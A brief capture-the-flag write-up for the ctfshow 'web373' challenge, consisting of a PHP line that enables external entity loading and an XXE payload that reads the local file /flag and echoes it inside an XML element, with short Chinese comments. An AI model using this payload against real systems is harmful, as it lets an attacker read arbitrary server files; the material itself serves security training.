

# web373

```
libxml_disable_entity_loader(false);// 允许外部实体的加载
```
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE payload [
<!ENTITY payload SYSTEM "file:///flag">//这里flag后不加后缀
]>
<web373>
<ctfshow>&payload;</ctfshow>
</web373>
```